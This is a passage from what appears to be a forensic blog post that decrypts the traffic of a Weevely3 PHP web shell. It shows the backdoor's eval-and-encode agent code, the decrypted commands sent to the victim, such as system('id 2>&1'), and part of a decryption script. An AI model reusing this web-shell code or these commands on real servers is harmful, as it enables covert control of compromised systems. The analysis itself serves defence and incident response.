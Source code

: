     print($phpcode);

/*
    @ob_start(); // Turn on output buffering
    @eval($phpcode); // Executes PHP code
    $o = @ob_get_contents(); // Save stdout to $o
    @ob_end_clean(); // Clean (erase) the output buffer and turn off output buffering

    $r = @base64_encode(@x(@gzcompress($o), $k)); // b64encode(XOR(gzip(stdout)), key)

    print("$p$kh$r$kf"); // HTTP Response data
*/
}
?>
{% endhighlight %}

Always take care of special characters such as the dollar sign in this input. Executing the above PHP code outputs:
{% highlight console %}
echo(69549);
{% endhighlight %}

This might seem confusing at first but it makes sense, the tool makes a [web-based check](https://github.com/epinna/weevely3/blob/master/modules/shell/php.py#L38) to ensure a proper connection end-point. If you decrypt the second packet, you get another validation check:

{% highlight console %}
@error_reporting(0);@system('echo 17236');
{% endhighlight %}

But this time, it ensures that is has necessary privileges to execute system commands on the victim server. Moreover, there are three more default packets which retrieve:
- Hostname
- Username
- Current working directory

In short, the five above requests are always sent immediately after initiating a backdoor communication channel. Decrypting the sixth request actually gives us the commander that the attacker wrote:

{% highlight console %}
chdir('/var/www/html');@error_reporting(0);@system('id 2>&1');
{% endhighlight %}

Functions such as `chdir()`, `error_reporting()`, and `system()` are always used; meanwhile the `2>&1` idiom is automatically appended after each user-entered command. 

# 5. Automation

I refined a script to decrypt content given as an input parameter to the script in CLI:

{% highlight php %}
<?php
$k = "b0270e74";
$kh = "11a12a4a68f2";
$kf = "120bb3b9572c";

echo decrypt($argv[1],$k,$kh,$kf);

function decrypt($data,$k,$kh,$kf){
    $data = peel($data,$kh,$kf);
	
	$first = base64_decode($data);
    $second = x($first,$k);
    $third = gzuncompress($second);
    return $third;
}

function peel($data,$kh,$kf){
    if (@preg_match("/$kh(.+)$kf/", $data, $m) == 1) {
        return $m[1];